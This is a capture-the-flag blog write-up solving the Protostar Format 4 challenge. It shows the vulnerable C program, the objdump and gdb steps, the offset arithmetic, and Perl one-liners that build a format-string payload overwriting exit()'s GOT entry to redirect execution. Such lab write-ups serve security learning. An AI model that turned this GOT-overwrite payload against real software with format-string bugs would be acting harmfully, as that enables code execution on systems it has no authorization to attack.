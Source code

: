 ```yaml
---
title: "Exploit Exercises - Protostar Format 4"
date: "2012-02-02T05:15:00-05:00"
comments: true
highlight: "true"
categories:
 - formatstring
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
---
```


Next up is the last challenge in the Format String series, [Format 4](http://exploit-exercises.com/protostar/format4). 

<!-- more -->

It starts out with the following code: 

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
 printf("code execution redirected! you win\n");
 _exit(1);
}

void vuln()
{
 char buffer[512];

 fgets(buffer, sizeof(buffer), stdin);

 printf(buffer);

 exit(1); 
}

int main(int argc, char **argv)
{
 vuln();
}
```

What initially caught my eye was the fact that there was a call to "exit()" as well as "_exit()".  This made me think back to my reading, and I realized it was going to be a GOT (Global Offset Table) overwrite on "exit()".  When the program runs for the first time, the GOT is initialized to 0x00000000 for every external function, such as libc functions.  The first time it runs that function, it will cache the memory address in the GOT, so that it doesn't have to ask libc, or the corresponding library each time.  If we overwrite the GOT value, we can make it execute arbitrary code instead of that original function.  In this case, our victim is "exit()". 

For this exploit to work, we will need a few things: 

* Memory address of "exit()" in the GOT, which we want to overwrite
* Memory address of "hello()", which will be the data we overwrite the GOT with
* Stack offset for the format string
* The amount of characters to buffer for each byte-pair

Getting the memory address of the "exit()" method in the GOT is fairly easy:

```
user@protostar:/opt/protostar/bin$ objdump -R format4

format4:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
080496fc R_386_GLOB_DAT    __gmon_start__
08049730 R_386_COPY        stdin
0804970c R_386_JUMP_SLOT   __gmon_start__
08049710 R_386_JUMP_SLOT   fgets
08049714 R_386_JUMP_SLOT   __libc_start_main
08049718 R_386_JUMP_SLOT   _exit
0804971c R_386_JUMP_SLOT   printf
08049720 R_386_JUMP_SLOT   puts
08049724 R_386_JUMP_SLOT   exit
```

Getting the memory address of "hello()" is quite similar: 

```
user@protostar:/opt/protostar/bin$ objdump -t format4 | grep hello
080484b4 g     F .text  0000001e              hello
```

To get the stack offset of the format string, it's quite simple.  We've done it in prior challenges.  Let's just spam "%x":   

```
user@protostar:/opt/protostar/bin$ echo AAAAAAAA`perl -e 'print "%x."x15'` | ./format4
AAAAAAAA200.b7fd8420.bffff624.41414141.41414141.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.
```

From this, we can now see "41414141" in the 4th stack variable, so our offset is 4. 

Using that offset of 4, we can now generate a format string using Direct Parameter Access, which I've only slightly mentioned in previous posts. I chose to dump the string to a file, because it made it really easy to use with gdb. 

```
user@protostar:/opt/protostar/bin$ perl -e 'print "\x24\x97\x04\x08"."\x25\x97\x04\x08"."\x26\x97\x04\x08"."\x27\x97\x04\x08"."%4\$n"' > /home/user/format4_dpa
```

Next, if we run it in gdb, we can see how many characters are being written to "printf" initially, and adjust our buffering to compensate.  Start up the gdb debugger, and disassemble the "vuln" function.  We do this, so we can set a breakpoint right before "exit()" gets called. 

```
user@protostar:/opt/protostar/bin$ gdb --quiet ./format4
Reading symbols from /opt/protostar/bin/format4...done.
(gdb) disassemble vuln
Dump of assembler code for function vuln:
0x080484d2 <vuln+0>:    push   %ebp
0x080484d3 <vuln+1>:    mov    %esp,%ebp
0x080484d5 <vuln+3>:    sub    $0x218,%esp
0x080484db <vuln+9>:    mov    0x8049730,%eax
0x080484e0 <vuln+14>:   mov    %eax,0x8(%esp)
0x080484e4 <vuln+18>:   movl   $0x200,0x4(%esp)
0x080484ec <vuln+26>:   lea    -0x208(%ebp),%eax
0x080484f2 <vuln+32>:   mov    %eax,(%esp)
0x080484f5 <vuln+35>:   call   0x804839c <fgets@plt>
0x080484fa <vuln+40>:   lea    -0x208(%ebp),%eax
0x08048500 <vuln+46>:   mov    %eax,(%esp)
0x08048503 <vuln+49>:   call   0x80483cc <printf@plt>
0x08048508 <vuln+54>:   movl   $0x1,(%esp)
0x0804850f <vuln+61>:   call   0x80483ec <exit@plt>
End of assembler dump.
(gdb) b *vuln+61
Breakpoint 1 at 0x804850f: file format4/format4.c, line 22.
```

After the breakpoint has been set, go ahead and run the program, piping in the formatstring from the file we created earlier: 

```
(gdb) run < /home/user/format4_dpa
Starting program: /opt/protostar/bin/format4 < /home/user/format4_dpa

Breakpoint 1, 0x0804850f in vuln () at format4/format4.c:22
22      format4/format4.c: No such file or directory.
        in format4/format4.c
```

What we need to do, is examine the address of the GOT space for the "exit()" method, and now see what was set. 

```
(gdb) x/1x 0x08049724
0x8049724 <_GLOBAL_OFFSET_TABLE_+36>:   0x00000010
```

Good, so far we know: <ul><li>GOT address to overwrite: 0x8049724</li><li>Value to overwrite it with: 0x080484b4</li></ul>
We can use this data to now calculate all of the individual buffer sizes needed to get the right number of characters output by "printf".  This little trick was learned from reading [Hacking: The Art of Exploitation, 2nd Edition](http://www.amazon.com/gp/product/1593271441/ref=as_li_ss_tl?ie=UTF8&tag=mattandcom-20&linkCode=as2&camp=1789&creative=390957&creativeASIN=1593271441)<img src="http://www.assoc-amazon.com/e/ir?t=mattandcom-20&l=as2&o=1&a=1593271441" width="1" height="1" border="0" alt="" style="border:none !important; margin:0px !important;" />, which I highly recommend.  Without this book, I would have been stuck on these format string levels for a lot longer than I was. I just needed a little bump, and it gave it to me. 

```
user@protostar:/opt/protostar/bin$ gdb -q
(gdb) p 0xb4 - 0x00000010
$1 = 164
(gdb) p 0x84 - 0xb4
$2 = -48
(gdb) p 0x184 - 0xb4
$3 = 208
(gdb) p 0x04 - 0x84
$4 = -128
(gdb) p 0x104 - 0x84
$5 = 128
(gdb) p 0x08 - 0x04
$6 = 4
(gdb) p 0x108 - 0x04
$7 = 260
```

To explain this, you take the address you want to overwrite with (0x080484b4 in our case) and split it up into the byte pairs in little endian order (b4, 84, 08, 08).  Starting with the first one (b4), you subtract the base number we saw get written before (0x00000010), and that will give us the first buffer length of 164.  For the second one, take the 2nd byte pair (84) and subtract the first byte pair (b4).  In this case, we went negative, so we add a "1" in the most significant digit of the first number, making ours "184".  We then subtract again, and get 208.  You do this for all 4 pairs, and you get your offsets of 164, 208, 128, 260. 

Now that we have our buffer sizes, let's construct the format string with them: 

```
user@protostar:/opt/protostar/bin$ perl -e 'print "\x24\x97\x04\x08"."\x25\x97\x04\x08"."\x26\x97\x04\x08"."\x27\x97\x04\x08"."%164x%4\$n"."%208x%5\$n"."%128x%6\$n"."%260x%7\$n"' > /home/user/format4_dpa
```

Lastly, we run the format4 program with the format4_dpa file as the input: 

```
user@protostar:/opt/protostar/bin$ ./format4 < /home/user/format4_dpa           $%&'                                                              

                                                                                                   200                                            

                                                                                                                                                  

          b7fd8420                                                                                                                        

bffff624                                                                                                                                          

                                                                                                                   8049724code execution 

redirected! you win
```

And that's a win! 

I learned a lot of things in this section of the Protostar challenge.  I had almost no experience with format string exploitation, but now I'm feeling pretty comfortable with them.  We'll have to see about the [Final 1](http://exploit-exercises.com/protostar/final1) level.

